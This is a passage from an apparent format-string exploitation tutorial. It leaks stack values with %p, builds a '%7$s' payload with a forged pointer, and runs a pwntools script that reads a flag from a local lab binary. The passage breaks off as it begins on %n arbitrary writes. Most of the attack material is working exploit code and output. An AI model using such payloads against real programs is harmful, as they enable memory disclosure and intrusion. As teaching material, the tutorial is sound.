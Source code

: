 ```console
inte@debian-pc:~$ docker run --rm -v "$(pwd):/app" -w /app gcc:10.5.0 gcc example4.c -o example4
inte@debian-pc:~$ ./example4
Flag is hidden at 0x404040
%p.%p.%p.%p.%p.%p
0xa.(nil).(nil).0x40201d.0x7fa620751a80.0x70252e70252e7025
```

Observe the value at offset 6; it is the hex representation of initial 8 bytes of our input.

```py
>>> from pwn import *
>>> p64(0x70252e70252e7025)
b'%p.%p.%p'
```

Therefore, the forged pointer should be `\x40\x40\x40\x00\x00\x00\x00\x00`, and the offset should be 6, resulting in the payload `\x40\x40\x40\x00\x00\x00\x00\x00%6$s`  
We still have a little problem. `printf()` interprets null bytes (`\x00`) as string terminators. Therefore, it would parse our payload as `\x40\x40\x40`  
A workaround for this problem is to arrange the payload as `%7$s||||\x40\x40\x40\x00\x00\x00\x00\x00`. We must ensure that the `format specifier` takes up 8 bytes. It also means that our offset is no longer 6, but 7 instead (the forged pointer moved further on stack)

We can use `pwntools` to send raw bytes to the pwnable.

```py
from pwn import *

exe = context.binary = ELF('./example4', checksec=False)
# context.aslr = False
# context.log_level = 'debug'

p = exe.process()

# gdb.attach(p, gdbscript='b* main+72')
# pause()

p.sendline(b'%7$s||||\x40\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```

```console
inte@debian-pc:~$ python3 exploit.py
[+] Starting local process '/mnt/hgfs/corridor/fmtstr_lab/example4': pid 4517
[*] Switching to interactive mode
[*] Process '/mnt/hgfs/corridor/fmtstr_lab/example4' stopped with exit code 0 (pid 4517)
Flag is hidden at 0x404040
CTF{secret_flag}||||@@@[*] Got EOF while reading in interactive
```

When debugging issues, it is helpful to replace `%s` in the payload with `%p`

### Arbitrary write with `%n`

Next up, we have `%n` format specifier, the capo di tutti capi.  
When `printf` encounters `%n`, it expects an integer argument and stores the number of characters written so far into this argument.  
An example for demonstration:
